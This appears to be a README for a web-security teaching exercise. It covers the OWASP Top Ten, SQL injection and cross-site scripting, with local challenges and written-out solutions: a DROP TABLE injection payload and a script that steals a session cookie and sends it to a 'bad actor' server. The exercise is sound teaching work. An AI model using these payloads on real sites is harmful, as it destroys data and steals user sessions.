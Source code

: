 # Cross-site Scripting and SQL Injection

OWASP is one of those unofficial official organizations that holds a lot of sway in the security world.  They publish a few guides that tend to be seen as authoritative.  One of those guides is the annual [OWASP Top Ten](https://owasp.org/www-project-top-ten/).  

These are the most common and most serious security flaws and vulnerabilities on the web today.  Just for the sake of thoroughness--and because, just maybe, you are wary of clicking on some random link you happened across--, here is OWASP's most recent top 10:

1. Injection
2. Broken Authentication
3. Sensitive Data Exposure
4. XML External Entities
5. Broken Access Control
6. Security Misconfiguration
7. Cross-Site Scripting
8. Insecure Deserialization
9. Using Components with Known Vulnerabilities
10. Insufficient Logging and Monitoring

Feel free to peruse the list to get a feel for what you're up against (or working with). We're going to spend today worrying about SQL Injection and Cross-Site Scripting.

## SQL Injection
Always Sanitize Your Inputs.  We are already familiar with basic SQL commands, such as this fine query that returns everything in the "users" table:

```SQL
SELECT * FROM users;
```

Well, let's say you have a website where you sell Compact Discs on the Internet.  Always Sanitize Your Inputs.  A potential customer does a search for "Nirvana".  See if you can construct a likely SQL query for that information.

```sql
SELECT * FROM albums WHERE artist = "Nirvana"
```

You make that database call, then display the results on your page.  

Your backend code might then look something like this:

```python
search_results = sql.make_query(f"SELECT * FROM albums WHERE artist = {user_input}")
```
That sure does seem convenient.  And really, how else would you know what query to make, unless the user tells you.  The problem with this is that you are opening up a direct path from random people on the internet (some of whom type while wearing hoodies) to your precious, precious data.  

In all likelihood your database doesn't just have googleable information like "how many albums did Nirvana put out?", but also usernames, passwords, credit cards...  

OK, then the solution is simple: no more user input!  Unfortunately, this pretty much ruins the internet.  In the end, this is just how it has to be, unless you are prepared to hard-code every query ahead of time, or maybe just let users ctrl+f the information they want.  You can skateboard, just wear a helmet.







## Challenges


### Setup
The challenges for today will require a little bit of setup.  

1. Clone this repo and cd into the base directory.
2. Create a virtual environment

```bash
python -m venv venv
```

3. Activate your virtual environment

```bash
source venv/bin/activate
```

4. Install the necessary Python module(s)

```bash
pip install -r requirements.txt
```

Run the bash script:
```bash
./start.sh
```
It will populate the database, and start the server.

Go to localhost:2222/ and see what you can do.

### SQL Injection Challenge: Little Bobby Tables
Some people just want to watch the world burn.  Today you'll get to sample that delicious nihilism as you (relatively) easily break things that other people spent so much more time making.  

Don't get me wrong, hackers aren't all bleakness and evil--they also love a good laugh.  In the dark corners of the internet, where everyone types with a hoodie on, there's a well-known internet comic.

[Here is one of his comics](https://xkcd.com/327/)

Unfortunately, I'm not sure I get the joke.  What could it mean?  

Note: Your database might become corrupted as you work through this challenge.  If so, simply start fresh by deleting users_posts.db, and running the start script.  When you do figure it out, you'll definitely have to re-create the database.

## Solution
In username:
```SQL
username'; DROP TABLE posts;
```


### Cross-Site Scripting Challenge: Claim Your Free Ipod!!!11
This one has some extra setup.  You'll be running an additional server on localhost:5000.  From the base directory, and in another terminal (split terminal):
1. npm install
2. node badActorServer.js

Now you have two whole servers running at the same time.

Savy internet users know to avoid Nigerian royals and herbal enhancements... But who can resist a brand new Ipod?  In a moment of weakness, you might even be tempted to click that flashing link and roll the dice.  Let's find out why you shouldn't do that.

This one is a little more complicated than the first.

Your goal is to get an unsuspecting FakeSociety user to click on a link.  You'll have to figure out some way to get that content into FakeSociety's server, onto their page, and make it tempting enough to click.  That link will direct the user to your nefarious server (badActorServer.js) and take along the user's bank account session cookie.  That cookie contains the user's bank account login information.  You should see the users bank account login information displayed to you on the page.  Then--and here's the irony--you're going to go out and buy your own Ipod!

## Solution
In username:
```html
    <script>let baseUrl = 'http://127.0.0.1:5000/'; let decodedCookie = decodeURIComponent(document.cookie); let cookieArr = decodedCookie.split(';')[1]; let finalCookie = cookieArr.split("=")[1]; let complete = `${baseUrl}${finalCookie}`; console.log(complete); document.write(`<h1><a href=${complete}>Click here for a free ipod</a></h1>`)</script>

```


## The Ethical Hacker
After years of cybrcrime, you start having second thoughts about your place in the world.  Sure, you have lots of Ipods, and no school records, but in the end, aren't you really just a social parasite?  It's time to make amends.  Since you know how to break it, it shouldn't be that hard to fix it.  

Change the source code so that your old attacks don't work anymore.